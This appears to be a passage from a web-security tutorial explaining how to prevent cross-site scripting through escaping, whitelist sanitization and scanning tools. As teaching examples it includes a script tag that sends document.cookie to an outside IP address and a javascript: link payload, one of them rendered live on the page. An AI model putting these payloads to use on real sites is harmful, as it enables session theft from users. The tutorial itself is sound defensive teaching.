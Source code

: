 You can still see this tweet <a href="https://twitter.com/dergeruhn/status/476764918763749376?lang=en" target="_blank">here</a>.

## How to prevent XSS?

There are a couple of ways to prevent your website against XSS. The two most
common ways are:

* **Escaping String Input** <br>
By converting legal HTML characters to their
display-equivalent (e.g. `<` to `&lt;`), you prevent the symbol from being
parsed as HTML. It now even shows the content on the screen (in case the actual
intention is to actually show someone how to code for example).
In the above example, the comment section will become like this:

    > **Comments Section** <br>
    That's a very nice picture! <br>
    Good photograph! <br>
    I **like** your photograph! <br>
    This is an innocent looking comment. `<script>sendToServer("http://139.241.0.3/", document.cookie)</script>`

    The `<script>` and `</script>` will be displayed as text rather than being run as `JavaScript` by the browser.

* **Whitelist Sanitization** <br>
By scanning and parsing the input as HTML, you can
remove undesired HTML elements, and only allowing certain whitelisted HTML
elements to be used (e.g. whitelisting only `<b>` and `<i>`).

Note that these two ways alone are not enough to protect your web application against XSS attacks. Sophisticated attacks will make use of the different possible user inputs to inject code or illegal characters that are not limited to `<script>...</script>`. It is important to note where the user input is going to be generated in the output.

For example, if you are building a profile page and allow user to add their own links to certain buttons:

`<a href="{user input link}">...</a>`

If a malicious user submits the following as input: 

`javascript:alert("XSS!")`

It will result in the button running the javascript code when pressed → <a href="javascript:alert('XSS!')"><span class="glyphicon glyphicon-user"></span></a> 

You can also consider using XSS scanning tools to check whether your web application is vulnerable. Below are links of some open-source XSS scanning tools: 

1. http://wapiti.sourceforge.net/ (Web Application Vulnerability Scanner)
1. http://w3af.org/ (Web Application Attack and Audit Framework)
1. https://www.arachni-scanner.com/ (Web Application Security Scanner Framework)

## Where to go from here?
